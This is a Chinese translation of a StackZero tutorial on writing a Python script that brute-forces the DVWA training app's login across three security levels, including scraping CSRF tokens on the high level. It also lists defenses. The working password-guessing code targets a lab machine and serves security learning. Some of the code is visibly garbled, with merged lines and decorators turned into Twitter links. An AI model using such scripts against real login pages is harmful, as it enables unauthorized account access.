






# 如何用 Python 暴力破解 DVWA 登录— StackZero

> 原文：<https://infosecwriteups.com/guess-your-enemies-passwords-with-python-brute-force-attack-99352e65ec8a?source=collection_archive---------3----------------------->



> 本文最初发表于[https://www.stackzero.net/brute-force-dvwa-python/](https://www.stackzero.net/brute-force-dvwa-python/)

嘿黑客们！在本文中，我想向您展示网络安全领域最知名的攻击之一。正如我们通常所做的那样，我们将在实践中这样做。
本教程的目标是实现一个简单的 python 脚本，对 [DVWA](https://github.com/digininja/DVWA) 进行暴力攻击！

这一次不是一个真正的弱点，就像:

*   [SQL 注入](https://medium.com/codex/sql-injection-what-you-need-to-know-stackzero-abc80bc1ea5e)
*   [XSS](https://medium.com/codex/the-terrifying-world-of-cross-site-scripting-xss-part-1-stackzero-54be9cdc011a)
*   [命令喷射](/what-is-command-injection-and-how-to-exploit-it-stackzero-ac7643bc492)

但是在我们动手之前，我想我们需要一个简短的解释。

# 什么是暴力攻击？

一个非常解释性的定义可能是:

*暴力攻击是一种网络攻击，黑客使用自动化工具猜测用户或系统的密码。*
黑客通常在事先不知道密码或系统的情况下实施这种攻击，并试图获得系统或帐户的访问权限。

暴力攻击可能是一个非常耗时和繁琐的过程，特别是如果密码很长、很复杂并且通常很容易被发现，因此它代表了现实世界攻击中的最后手段(对于谨慎的用户)。然而，在强大的计算机和正确的软件的帮助下，黑客每秒钟可以做出数千次猜测。

暴力攻击有两种类型:

1.  **测试允许字符的所有可能组合(很少使用，相对较长的密码很难成功使用)**
2.  **从列表中测试密码(它适用于弱密码)。**

# 暴力的最佳工具

在这一点上，你应该知道我们解决问题的方法，由于我们愿意学习，仅仅使用一个工具而没有深厚的知识是不可取的。
然而，在现实世界中，它们可以节省我们很多时间，所以在编写我们的 python 脚本和在我们的 DVWA 机器上执行暴力攻击之前，我只想用简短的描述列出最好的工具。
(我将把列表限制为针对 Web 应用程序暴力攻击的工具)

*   Callow :这是一个非常容易使用的 Python 脚本，允许你从命令行发起攻击，通过插入选择器作为输入。如果你想测试它，你可以在这里找到详细的指南。
*   [BurpSuite](https://portswigger.net/burp) :它被广泛用于渗透测试，它有很多特性，其中之一(入侵者)允许我们发起暴力攻击。
*   Hydra :最快最全的蛮力工具，也有 GUI。它的知识对于渗透测试仪来说是必不可少的。

# 如何保护自己

在这种情况下，系统中没有真正的漏洞，因此最好的保护方法是使所需的试验数量大到无法在合理的时间内完成，并可能阻止可疑的活动。

有许多方法可以防止暴力攻击，但以下是一些最有效的方法:

1.  使用强密码，并且永远不要重复使用。
2.  使用密码管理器来生成和存储强密码。
3.  尽可能启用双因素身份验证。
4.  作为网站管理员，您可以通过在两次试验之间引入延迟来干扰攻击

所有这些措施都会使攻击变得非常复杂，以至于可能需要几千年(或更长时间，取决于密码的复杂性)来测试所有可能的组合，从而使系统几乎不会受到这种攻击。

# 步骤#0:准备环境

在开始用 python 编写暴力攻击代码之前，我们需要准备好 [DVWA](https://github.com/digininja/DVWA) 机器，并导入我们需要的所有库。

和目标机没那么多关系，因为我要用的是 [TryHackMe](https://tryhackme.com/room/dvwa) 提供的那个。
这个精彩的网站还提供了如何配置 VPN 来访问机器的完整教程，所以我会理所当然地认为你在一台 [Kali 机器](https://www.stackzero.net/how-to-install-kali-linux-on-virtualbox-in-a-few-minutes/)上，并且你可以访问一个 [DVWA](https://github.com/digininja/DVWA) 的实例。

下一步是安装所需的库，在本例中:

*   [BeautifulSoup](https://www.crummy.com/software/BeautifulSoup/) :负责解析 HTML 的库。
*   [请求](https://requests.readthedocs.io/en/latest/):帮助发送 HTTP 请求的库。

我还分享了一个文件，它将为你提供一个类，使得用 python 登录 [DVWA](https://github.com/digininja/DVWA) 更加容易。你可以在我的 [GitHub 库](https://github.com/StackZeroSec/dvwa/blob/main/utils.py)中找到它，在暴力部分，也有本教程中的代码。如果你只是想复制粘贴，这是实用程序的代码。

```
from bs4 import BeautifulSoup
from enum import Enum
import stringclass SecurityLevel(Enum):
    LOW = "low"
    MEDIUM = "medium"
    HIGH = "high"
    IMPOSSIBLE = "impossible"
class CSRFManager:[@staticmethod](http://twitter.com/staticmethod)
    def set_csrf_token(func):
        def wrapper(*args, **kwargs):

            user_token = CSRFManager.get_token(args[0]._session, args[0].url)

            if user_token != None:
                args[0].user_token = user_token["value"]

            return func(*args, **kwargs)
        return wrapper

    [@staticmethod](http://twitter.com/staticmethod)
    def get_token(session:requests.Session, url:str):

        response = session.get(url)
        soup = BeautifulSoup(response.text, 'html.parser')
        user_token = soup.find("input", {"name": "user_token"})
        return user_tokenclass DVWASessionProxy:
    login_data = {
            "username": "admin",
            "password": "password",
            "Login": "Login"
    }
    def __init__(self, url):
        super().__init__()
        self._session = requests.Session()
        self.url = f"{url}/login.php"
        self.data = {}

    [@property](http://twitter.com/property)
    def security(self):
        return self._session.cookies.get_dict()["security"]

    [@security](http://twitter.com/security).setter
    def security(self, security_level):self._session.cookies.pop("security")
        self._session.cookies.set("security", security_level.value)

    [@property](http://twitter.com/property)
    def user_token(self):
        return self.data["user_token"]

    [@user_token](http://twitter.com/user_token).setter
    def user_token(self, value):
        self.data["user_token"] = valuedef __enter__(self):

        response = self.login(self.url, data= {**self.data, **DVWASessionProxy.login_data}) 
        return self

    def get(self, url ,headers=None, params=None, cookies=None):
        response = self._session.get(url, headers=headers, params=params, cookies=cookies)
        self.url = response.url
        return response

    [@CSRFManager](http://twitter.com/CSRFManager).set_csrf_token
    def login(self, url, headers=None, data=None):response = self._session.post(url, headers=headers, data={**self.data, **data})def post(self, url ,headers=None, data=None, cookies=None):response = self._session.post(url, headers=headers, data=data, cookies=cookies)return responsedef __exit__(self, exc_type, exc_val, exc_tb):
        self._session.close()class DVWASQLiResponseParser:
    def __init__(self, response):
        self.response = responsedef get_interesting_value(self):

        soup = BeautifulSoup(self.response.content, 'html.parser')
        interesting_value = soup.find("pre")
        return interesting_value

    def check_presence(self, string):
        return string in self.get_interesting_value().text
```

# 第 0 步:了解目标

在继续之前，让我们使用凭证登录到 [DVWA](https://github.com/digininja/DVWA) :

*   **用户名**:管理员
*   **密码**:密码



之后，你必须从左边的设置中设置低难度:



现在我们已经准备好获取我们需要的信息，所以单击左侧栏中的蛮力菜单项，您应该会看到这个屏幕:



现在让我们尝试插入一些随机数据(如用户名:admin，密码:admin)并查看结果:



另一件重要的事情是查看类似于以下内容的 URL:

`[http://10.10.199.147/vulnerabilities/brute/?username=admin&password=admin&Login=Login#](http://10.10.199.147/vulnerabilities/brute/?username=admin&password=admin&Login=Login#)`

所以我们知道这个请求是一个 get 请求，它有三个参数:

*   用户名
*   密码
*   注册

我们还知道，如果失败，我们需要在响应中查找这个字符串(或者可能是一部分):

`Username and/or password incorrect.`

现在我们知道了我们需要的一切，我们可以开始编码了！

# 步骤 1:在低安全性 DVWA 上使用暴力

感谢我们所创造的，当我们尝试不同的安全级别时，没有太多的变化要做。
在这一步中，我们可以解决没有任何保护的最简单的关卡，但我们不会急于求成，这样我们就可以专注于程序。
在开始 python 脚本之前，让我们写下我们想要成功地对 DVWA 执行暴力攻击所要做的事情。

*   定义发送凭据的函数
*   定义一个从文件中读取密码并返回列表的函数。
*   将它们放在一个 main 中，该 main 将使用 for 循环发送列表中的每个密码。

对于密码列表，我将使用 [SecLists](https://github.com/danielmiessler/SecLists) 中的[1000 万密码列表 top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) 。

让我们定义一个从文件中检索密码并返回列表的方法:

```
def get_passwords(filename):
    q = []
    with open(filename, 'r') as f:
        for e in f.read().split("\n"):
            q.append(e) return q
```

现在我们需要定义发送凭证的方法。
我选择在这个函数中一步一步地构建 URL，通过在字典中传递参数，因为它将在最后一级帮助我们，所以让我们看看它是如何出现的:

```
def send_credentials(session, url, data): target_url = url
    for k, v in data.items():
        target_url+=f"{k}={v}&"
    target_url = target_url[:-1]+"#"
    response = session.get(target_url)   
    return response
```

最后，在 main 函数中，我们需要发送凭证，直到我们没有收到不包含单词*“不正确的密码”*的响应

我们将在 for 循环中这样做:

```
if __name__=="__main__":
    BASE_URL = "[http://10.10.36.246](http://10.10.36.246)"
    bruteforce_url = f"{BASE_URL}/vulnerabilities/brute?"
    filename = sys.argv[1]
    username = "admin" q = get_passwords(filename) with DVWASessionProxy(BASE_URL) as s:
        s.security = SecurityLevel.LOW
        for password in q:

            data = {
            "username": username,
            "password": password,
            "Login": "Login"
            }
            response = send_credentials(s, bruteforce_url, data)
            print(" "*40, end="\r")
            print(f"[!] Testing: {password}", end="\r")
            if "password incorrect." not in response.text:
                print("")
                print(f"[+] Found: {password}")
                break
```

如您所见，我选择了将密码文件作为 sys 参数传递。

只是为了让工作更有趣，我已经打乱了文件(如果你不想在几次尝试后得到匹配，你可以做同样的事情)。

因此，让我们通过键入以下命令来运行脚本:

`python main.py passwords.txt`

这是我们用用户名*“admin”*尝试时的结果



仅此而已，你看到的版画只是为了做一个好看的动画，与逻辑无关。

# 步骤 2:在中等安全的 DVWA 上使用暴力

该级别仅引入了 2 秒钟的延迟，但逻辑保持不变，我们需要做的唯一更改是在主函数中替换 [DVWA](https://github.com/digininja/DVWA) 安全级别:

`s.security = SecurityLevel.LOW`

有了这个:

`s.security = SecurityLevel.MEDIUM`

在那之后，我们的 python 脚本准备再次无障碍地执行暴力攻击。

因此，如果我们启动脚本，这又是结果(我们可以喝一杯咖啡，可能它需要的比前一级多得多)。


# 步骤 3:对高安全性 DVWA 的暴力攻击

我们终于到了最后一关，这里又出现了新的困难。

为了测试新的水平，尝试再次进入浏览器，在将难度设置为高之后，进入暴力破解部分，并尝试使用**用户名=管理员**和**密码=管理员**登录。

通过查看 URL 栏，您可以看到一个由 32 个字符组成的附加参数:user_token，如下所示:

`[http://10.10.36.246/vulnerabilities/brute/?username=admin&password=admin&Login=Login&user_token=fcab4bb060c1fc2b4c6d57f4f70e3985#](http://10.10.36.246/vulnerabilities/brute/?username=admin&password=admin&Login=Login&user_token=fcab4bb060c1fc2b4c6d57f4f70e3985#)`

这是一个 [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) 令牌，简而言之就是一个由服务器生成的隐藏输入，它必须与完整的请求一起被发送回去，以使其有效。

为了提出有效的请求，我们主要需要做的是:

*   向页面发出 GET 请求
*   解析用户令牌
*   发送带有凭据的用户令牌

通过查看 HTML 代码(Firefox 浏览器中的 CTRL + U ),我们看到了与令牌相关的部分:

```
Username:<br>
   <input type="text" name="username"><br>
   Password:<br>
   <input type="password" autocomplete="off" name="password"><br>
   <br>
   <input type="submit" value="Login" name="Login">
   <input type="hidden" name="user_token" value="15ce2cbeebca3d0c456985d30d784f2f">
```

所以我们可以用这几行代码得到它:

```
response = s.get(bruteforce_url)
soup = BeautifulSoup(response.text, 'html.parser')
user_token = soup.find("input", {"name": "user_token"})["value"]
data["user_token"] = user_token
```

这没什么大不了的，所以我们可以通过改变一行代码来改变 main 函数，使之尽可能容易地在三个级别之间切换。

我们可以用 if 语句获得结果，该语句检查安全级别是否设置为高。

这是我们新的主要功能:

```
if __name__=="__main__":
    BASE_URL = "[http://10.10.36.246](http://10.10.36.246)"
    bruteforce_url = f"{BASE_URL}/vulnerabilities/brute?"
    filename = sys.argv[1]
    username = "admin" q = get_passwords(filename) with DVWASessionProxy(BASE_URL) as s:
        s.security = SecurityLevel.HIGH
        for password in q:

            data = {
            "username": username,
            "password": password,
            "Login": "Login"
            } if s.security is SecurityLevel.HIGH.value: response = s.get(bruteforce_url)
                soup = BeautifulSoup(response.text, 'html.parser')
                user_token = soup.find("input", {"name":    "user_token"})["value"]
                data["user_token"] = user_token
            response = send_credentials(s, bruteforce_url, data)
            print(" "*40, end="\r")
            print(f"[!] Testing: {password}", end="\r")
            if "password incorrect." not in response.text:
                print("")
                print(f"[+] Found: {password}")
                break
```

通过运行，甚至这个级别是完整的！祝贺你，祝你成功！


# 第 4 步:代码概述

像往常一样，为了让您更好地了解整个过程，这是完整的代码(我还包括了 utils 库):

# 结论

我希望您意识到用 python 发起暴力攻击是多么容易，即使 DVWA 只是一台测试机器。

然而，本文的主要目标是让您了解如何使用 python 脚本执行暴力攻击，以及使用安全密码的重要性。

正如您所看到的，一台机器可能不具备在现实世界中破解安全密码的处理能力。
但是，如果我们有更多的机器，比如僵尸网络，就很容易破解比*“密码”*更安全的密码，就像我们在本教程中看到的那样。

我希望一切都解释清楚了，如果不放心，随时与我联系。

如果你喜欢我的作品，我邀请你关注我的博客和我所有的社交活动。

非常感谢，下一篇文章再见！

*你可以通过下面的链接注册，每月只需 5 美元就可以获得所有的媒体报道:*

[](https://medium.com/membership/@stackzero) [## 用我的推荐链接加入媒体- StackZero

### 我们的最新报道(以及数以千计的其他报道)一经发布，您就可以立即获得。成为会员后，您将获得所有权限…

medium.com](https://medium.com/membership/@stackzero) 

*原载于 2022 年 11 月 3 日 https://www.stackzero.net**的* [*。*](https://www.stackzero.net/brute-force-dvwa-python/)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！